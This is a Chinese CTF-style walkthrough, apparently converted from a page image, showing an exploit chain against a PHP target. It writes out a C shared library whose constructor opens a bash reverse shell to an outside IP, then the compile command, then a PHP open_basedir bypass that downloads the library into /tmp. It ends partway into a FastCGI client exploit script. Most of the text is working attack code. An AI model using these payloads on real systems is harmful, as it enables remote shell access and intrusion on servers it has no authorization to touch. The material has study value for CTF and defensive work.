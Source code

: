 写.so扩展

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.93.248.221/2333 0>&1'");
}
```

编译一下

```
gcc 1.c -fPIC -shared -o 1.so
```

将生成的1.so上传到靶机的/tmp目录下

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');copy('http://47.93.248.221/1.so','/tmp/1.so');
```

看到已经上传成功了

![image-20211108170451080](images/12.png)

利用如下exp生成payload

```
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
```